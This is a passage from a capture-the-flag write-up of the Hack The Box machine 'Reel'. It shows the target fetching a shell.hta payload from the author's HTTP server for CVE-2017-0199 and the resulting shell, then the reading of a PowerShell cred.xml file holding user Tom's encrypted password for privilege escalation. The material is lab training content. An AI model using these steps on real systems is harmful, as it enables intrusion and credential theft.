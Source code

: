 In a few seconds, I got a hit on my python server.

```bash
root@kali:~/CTF/HTB/Boxes/Reel/CVE-2017-0199# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.77 - - [11/Aug/2020 21:41:58] "GET /shell.hta HTTP/1.1" 200 -
```

And I got a shell

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reel/Untitled%201.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reel/Untitled%201.png)

## PrivEsc → Tom

When I got through the files and Found encrypted password of user `tom` and they use Powershell's PSCredential, which provides a method to store usernames, passwords, and credentials. There are also two functions, Import-CliXml and Export-CliXml , which are used to save these credentials and restore them from a file.

```bash
Directory of C:\Users\nico\Desktop

28/05/2018  21:07    <DIR>          .
28/05/2018  21:07    <DIR>          ..
28/10/2017  00:59             1,468 cred.xml
28/10/2017  00:40                32 user.txt
               2 File(s)          1,500 bytes
               2 Dir(s)  15,769,726,976 bytes free

C:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```
